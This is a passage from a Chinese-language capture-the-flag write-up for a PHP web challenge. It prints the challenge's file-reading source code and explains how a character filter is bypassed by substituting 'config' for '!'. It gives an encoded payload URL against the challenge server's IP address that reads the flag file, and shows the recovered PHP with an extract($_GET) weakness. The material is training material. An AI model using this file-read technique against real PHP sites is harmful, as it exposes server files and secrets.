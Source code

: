 ```
<?php
/*
 * https://blog.csdn.net/FengBanLiuYun/article/details/80616607
 * Date: July 4,2018
 */
error_reporting(E_ALL || ~E_NOTICE);


header('content-type:text/html;charset=utf-8');
if(! isset($_GET['jpg']))
    header('Refresh:0;url=./index.php?jpg=TmpZMlF6WXhOamN5UlRaQk56QTJOdz09');
$file = hex2bin(base64_decode(base64_decode($_GET['jpg'])));
echo '<title>'.$_GET['jpg'].'</title>';
$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);
echo $file.'</br>';
$file = str_replace("config","!", $file);
echo $file.'</br>';
$txt = base64_encode(file_get_contents($file));

echo "<img src='data:image/gif;base64,".$txt."'></img>";
/*
 * Can you find the flag file?
 *
 */

?>
```

题目提示了一个url，还有一个日期(2018-7-4)。
打开提示文章，发现该文章发表时间与提示时间不同。  
![](https://i.loli.net/2019/04/18/5cb774ca9a9a4.png)  
打开作者首页，找到2018-7-4发表的文章：  
https://blog.csdn.net/FengBanLiuYun/article/details/80913909  
这里有个巨大脑洞！！写这题的时候真想杀了出题人<img src="https://cloud.panjunwen.com/alu/中刀.png" alt="中刀.png" class="vemoticon-img">  
![](https://i.loli.net/2019/04/18/5cb774cab88a1.png)  
猜测存在备份文件`practice.txt.swp`，访问之~:  
![](https://i.loli.net/2019/04/18/5cb774ca2f3a1.png)  
提示flag存在于`f1ag!ddctf.php`文件，使用index.php读取之~  
由于`$file = preg_replace("/[^a-zA-Z0-9.]+/","", $file);`，我们无法直接输入!  
不过由于`$file = str_replace("config","!", $file);`，我们可以使用config来代替。  
故payload为:  
`117.51.150.246/index.php?jpg=TmpZek1UWXhOamMyTXpabU5tVTJOalk1TmpjMk5EWTBOak0zTkRZMk1tVTNNRFk0TnpBPQ==`  
返回内容base64解码：  
```
<?php
include('config.php');
$k = 'hello';
extract($_GET);
if(isset($uid))
{
    $content=trim(file_get_contents($k));
    if($uid==$content)
	{
		echo $flag;
	}
	else
	{
		echo'hello';
	}
}
```
